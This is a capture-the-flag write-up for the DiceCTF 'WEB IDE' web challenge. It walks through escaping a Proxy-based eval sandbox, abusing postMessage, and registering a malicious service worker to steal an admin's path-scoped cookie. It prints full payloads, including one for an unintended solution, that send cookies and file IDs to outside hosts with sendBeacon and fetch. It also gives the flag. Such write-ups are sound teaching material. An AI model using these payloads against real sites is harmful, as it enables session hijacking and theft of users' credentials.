

**WEB IDE** 


**Category:** Web
**Concepts:** xss, csrf, service-workers, browser-apis

**Problem Statement:**
Work on JavaScript projects directly in your browser! Make something cool? Send it here

(link to main webpage)

(link to admim bot)

**Hints**
None





**Included Source:**
```javascript
const express = require('express');
const crypto = require('crypto');
const app = express();

const adminPassword = crypto.randomBytes(16).toString('hex');

const bodyParser = require('body-parser');

app.use(require('cookie-parser')());

// don't let people iframe
app.use('/', (req, res, next) => {
  res.setHeader('X-Frame-Options', 'DENY');
  return next();
});

// sandbox the sandbox
app.use('/sandbox.html', (req, res, next) => {
  res.setHeader('Content-Security-Policy', 'frame-src \'none\'');
  // we have to allow this for obvious reasons
  res.removeHeader('X-Frame-Options');
  return next();
});

// serve static files
app.use(express.static('public/root'));
app.use('/login', express.static('public/login'));

// handle login endpoint
app.use('/ide/login', bodyParser.urlencoded({ extended: false }));

app.post('/ide/login', (req, res) => {
  const { user, password } = req.body;
  switch (user) {
  case 'guest':
    return res.cookie('token', 'guest', {
      path: '/ide',
      sameSite: 'none',
      secure: true
    }).redirect('/ide/');
  case 'admin':
    if (password === adminPassword)
      return res.cookie('token', `dice{${process.env.FLAG}}`, {
        path: '/ide',
        sameSite: 'none',
        secure: true
      }).redirect('/ide/');
    break;
  }
  res.status(401).end();
});

// handle file saving
app.use('/ide/save', bodyParser.raw({
  extended: false,
  limit: '32kb',
  type: 'application/javascript'
}));

const files = new Map();
app.post('/ide/save', (req, res) => {
  // only admins can save files
  if (req.cookies.token !== `dice{${process.env.FLAG}}`)
    return res.status(401).end();
  const data = req.body;
  const id = `${crypto.randomBytes(8).toString('hex')}.js`;
  files.set(id, data);
  res.type('text/plain').send(id).end();
});

app.get('/ide/saves/:id', (req, res) => {
  // only admins can view files
  if (req.cookies.token !== `dice{${process.env.FLAG}}`)
    return res.status(401).end();
  const data = files.get(req.params.id);
  if (!data) return res.status(404).end();
  res.type('application/javascript').send(data).end();
});

// serve static files at ide, but auth first
app.use('/ide', (req, res, next) => {
  switch (req.cookies.token) {
  case 'guest':
    return next();
  case `dice{${process.env.FLAG}}`:
    return next();
  default:
    return res.redirect('/login');
  }
});

app.use('/ide', express.static('public/ide'));

app.listen(3000);
```

I beat my head on this challenge for wayyy too long before getting a hint from the admin that I should look at browser APIs. I came across the `window.postMessage` API which lets two cross origin frames communicate through a `message` event. The frame sourcing `/sandbox.html` takes data from `/ide` and evals it in it's `message` event listener (after stripping down the window objects).

#### Step 1: Circumvent the stripping of window objects (since we cannot do any useful XSS without window).

Let us see how the window object is being stripped

```javascript
(async () => {

  await new Promise((r) => { window.addEventListener(('load'), r); });

  const log = (data) => {
    const element = document.createElement('p');
    element.textContent = data.toString();
    document.querySelector('div').appendChild(element);
    window.scrollTo(0, document.body.scrollHeight);
  };

  const safeEval = (d) => (function (data) {
    with (new Proxy(window, {
      get: (t, p) => {
        if (p === 'console') return { log };
        if (p === 'eval') return window.eval;
        return undefined;
      }
    })) {
      eval(data);
    }
  }).call(Object.create(null), d);

  window.addEventListener('message', (event) => {
    const div = document.querySelector('div');
    if (div) document.body.removeChild(div);
    document.body.appendChild(document.createElement('div'));
    try {
      safeEval(event.data);
    } catch (e) {
      log(e);
    }
  });

})();
```

The window object is actually being called through an object proxy which only allows `console: { log }` and `eval: window.eval` to pass through.
This can be circumvented by calling functions through the Function class object.

`[].constructor.constructor` gives a Function constructor, therefore `[].constructor.constructor(< code here >)()` will construct a function out of the code and call it without the call being visible to the proxy.

#### Step 2: Somehow take control of the origin to be able to send fetch requests to /ide/save ( this step is required because we need the id of the stored Javascript to reference it later )

For this we can embed an iframe of the `/sandbox.html` into a private server and write some JS to post messages to the iframe.(Note that we can create the iframe of that endpoint because the `X-Frame-Options: Deny` header is removed for it).
Also keep in mind that this is good amount of power, since any message we post to the iframe will be evaled in it's handler.
Now we can post payloads like `[].constructor.constructor("fetch('/id/save')")()` since the source of such fetch requests is now `/sandbox.html` which is on the same origin.

Great. This means now we can get the id of the stored file.

***But wait, why can't we just use document.cookie to get the cookie since we are on the same origin?***
That is because the path of the cookie is set to `/ide` and it is only visible on `/ide/*` endpoints and not from `/sandbox.html`

#### Step 3: Write a Service Worker so that you get the cookie from `/ide/` even though we don't have control over it 

Service workers are very powerful since they give a great deal of frontend control to the scope they're registered for. Register such a SW for `/ide` or `/ide/saves/` scopes. This service worker should send the document.cookie to your VPS. But there is a catch, there is no implementation so far for service workers to access the cookies.(They don't run in window context and therefore also have no direct access to DOM). So we can have the service worker respond with malicious script that takes the cookie and sends it to the VPS (Note that this does not require DOM control since we are not modifying the DOM, we are rendering new DOM with mailicous script).

This SW can be written and saved to `/ide/saves/` (since SW scripts need to be in the same origin as where they are to be registered, you cannot host this on your private server)

#### Step 4: CSRF the admin

Send the link to your HTML form (with the iframe) to the admin and get the cookie.

#### Payload (derived from [payload by Ailuropoda Melanoleuca](https://discord.com/channels/805956008665022475/808122408019165204/808143656946368512))

1) Getting id
```html
<iframe src='https://web-ide.dicec.tf/sandbox.html'></iframe> <!-- iframe to /sandbox.html -->
<script>

// Post message to the iframe
document.querySelector('iframe').contentWindow.postMessage("

//circumvent the proxy
[].constructor.constructor(`
	// post the service worker script
	fetch('/ide/save', {
		method: 'POST',
		body: 'self.addEventListener(\"fetch\", e => {e.respondWith(new Response(\"<script> navigator.sendBeacon(\\\\'https://5e2dbf30a432.ngrok.io/a=\\\\', document.cookie)</scri'+'pt>\",{headers:{\\\\'content-type\\\\':\\\\'text/html\\\\'}})})'})

	// convert response(the id) to text
	.then(a => a.text()
	// send off the response to vps
	.then(a => fetch('https://5e2dbf30a432.ngrok.io/q=' + a)))

	`)();", '*');

</script>
```
2) The serviceworker script(body of the above request)

```javascript
self.addEventListener("fetch", e => {
	e.respondWith(
		new Response("<script> navigator.sendBeacon('https://5e2dbf30a432.ngrok.io/a=', document.cookie)</scri'+'pt>",
			{
				headers:{'content-type':'text/html'}
			}

		)
	)
});
```

3) Registering serviceworker

```html
<iframe src='https://web-ide.dicec.tf/sandbox.html'></iframe> <!-- iframe to /sandbox.html -->
<script>

// post message to the iframe
document.querySelector('iframe').contentWindow.postMessage("

// circumvent proxy
[].constructor.constructor(`
	// create script tag to append to the iframe with SW registration code
	a=document.createElement('script');
	a.appendChild(document.createTextNode('
		// SW registration code and some callbacks for status reporting
		navigator.serviceWorker.register(\"/ide/saves/9fa496ae2b205061.js\")
		.then(() => new Promise(()=>{ fetch(\"https://5e2dbf30a432.ngrok.io/success\")
		.then(() => {setTimeout(() => {location = \"https://web-ide.dicec.tf/ide/saves/\"}, 1000)})})
		.then(() => fetch(\"https://5e2dbf30a432.ngrok.io/success\")))
		.catch((e) => fetch(\"https://5e2dbf30a432.ngrok.io/e=\"+e))
	'));
	document.body.appendChild(a);`)();", '*');

</script>

```

**FLAG:** dice{c0uldn7_f1nd_4_b4ckr0nym_f0r_1de}

### Unintended Solution

After embedding the iframe into your private server ( after `Step 2` ), it is possible to get cross-path cookies in Headless Chrome (the browser that most such admin bots use)

#### Payload([source](https://ctftime.org/writeup/25989))

```html
<body>
  <iframe src="https://web-ide.dicec.tf/sandbox.html" sandbox="allow-scripts allow-same-origin allow-popups allow-popups-to-escape-sandbox"></iframe>
  <script>
    const frame = document.querySelector('iframe');
    frame.onload = () => frame.contentWindow.postMessage(`(async () => {
      const w = eval.call(this, "window");
      let p = w.open('/ide');
      await new w.Promise(r => w.setTimeout(r, 500));
      const c = p.document.cookie;
      w.fetch("ctf.rabulinski.com", { method: "POST", body: c });
    })();`, '*');
  </script>
</body>
```

